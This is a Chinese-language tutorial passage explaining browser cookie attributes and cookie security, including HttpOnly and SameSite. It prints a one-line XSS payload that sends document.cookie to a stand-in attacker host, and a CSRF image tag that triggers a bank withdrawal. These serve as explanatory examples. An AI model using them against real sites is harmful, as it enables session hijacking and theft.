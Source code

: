 - key
  为一个cookie的名称，对应控制台中的Name列。
- value
  为一个cookie的值，对应控制台中的Value列。
- Domain 和 Path
  分别对应控制台的 Domain 和 Path 列。
  - `Domain` 和 `Path` 标识定义了Cookie的作用域：即Cookie应该发送给哪些URL(URL 可以是js/html/img/css资源请求等XHR 请求)。但是跨域的请求默认是不会发送Cookie的，查看原因[附带身份凭证的请求](/blob/2019-04-09-cross-domain-resource-sharing-cors/#%E9%99%84%E5%B8%A6%E8%BA%AB%E4%BB%BD%E5%87%AD%E8%AF%81%E7%9A%84%E8%AF%B7%E6%B1%82)。
  - `Domain` 标识指定了哪些主机可以接受Cookie。如果不指定，默认为当前文档的主机。如果设置为一级域名，则子域名能识别到该Cookie。
  - `Path` 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。
- Expires 和 Max-Age
  分别对应控制台中的 Expires 和 Max-Age 列。
  - 不指定这两个值则为`会话期Cookie`，浏览器关闭之后它会被自动删除；有些浏览器提供了会话恢复功能，即使关闭了浏览器，会话期Cookie也会被保留下来。
  - 指定任意一个则为`持久性Cookie`；如果是服务器设置 cookie 则 Expires 时间是服务器时间，可能和浏览器时间不同的，导致细微的差距，指定过期可设置一个过去的时间；Max-Age 设置的是秒数，时间从浏览器接收到该参数的时刻开始计算一个具体的时间作为过期时间。指定过期可设置为0或者负数。
- Secure
  对应控制台中的Name列。
  - 标记为 Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。
  - 而且该属性只能在https协议下进行设置。
- HttpOnly
  对应控制台中的HTTP列。
  - 为避免跨域脚本 (XSS) 攻击，通过JavaScript的 [Document.cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie) API无法访问带有 HttpOnly 标记的Cookie，它们只应该发送给服务端。
  - HttpOnly 只能通过服务端进行设置。
- SameSite Cookies
  对应控制台中的SameSite列。
  - SameSite Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前SameSite Cookie还处于实验阶段，并不是所有浏览器都支持。

## cookie 安全

### 会话劫持和XSS
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。

``` js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly`类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

``` js
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。
